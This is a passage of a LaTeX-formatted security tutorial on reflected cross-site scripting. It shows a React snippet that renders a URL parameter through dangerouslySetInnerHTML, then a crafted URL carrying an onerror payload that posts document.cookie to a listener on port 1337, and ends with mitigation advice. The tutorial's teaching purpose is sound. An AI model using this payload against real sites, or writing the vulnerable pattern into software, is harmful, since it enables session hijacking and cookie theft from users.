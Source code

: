 \documentclass[]{article}
\begin{document}
Reflected Cross-Site Scripting (XSS) is the simplest form of XSS attack. Unlike Stored XSS, where the malicious script is stored on the server, Reflected XSS occurs when a malicious script is reflected off a web application onto the user's browser. The victim of the attack is not the website itself, but a client of that website. This vulnerability is due to improper handling of untrusted inputs.

In Reflected XSS attacks, an attacker crafts a malicious URL containing the script. When a user clicks on this URL, the script is executed in the context of the user's session, potentially leaking sensitive information like cookies, which are only accessible from within the website.

\textbf{Vulnerable code:}
Consider the situation where users can search for sellers by username. The vulnerable React code in \texttt{routes/locatorPage.js} retrieves the seller's username from the URL query parameter \texttt{sellerUsername} and displays it using the \texttt{dangerouslySetInnerHTML} property.

Here is the vulnerable code:
\begin{lstlisting}
<p>You are searching for seller: <span dangerouslySetInnerHTML={{__html: sellerUsername}}></span> </p> 
\end{lstlisting}

\textbf{Exploitation:}
An attacker can craft a malicious URL like this:

\begin{lstlisting}
http://localhost:3000/user/locator?sellerUsername=<audio src="" onerror="fetch('http://localhost:1337', {method:'POST', body:document.cookie})">
\end{lstlisting}

When a user clicks on this URL, the script executes and sends the user's cookies to the attacker's server listening on port 1337. The attacker can capture the cookies using netcat.

\textbf{Mitigation:}
To prevent Reflected XSS vulnerabilities, it is essential to set cookies with the \texttt{HttpOnly: true} flag to block access to \texttt{document.cookie}, properly handle and sanitize all user inputs, especially those included in the URL, and stop using \texttt{dangerouslySetInnerHTML}.

\paragraph{DOM-Based Cross-Site Scripting}
\end{document}
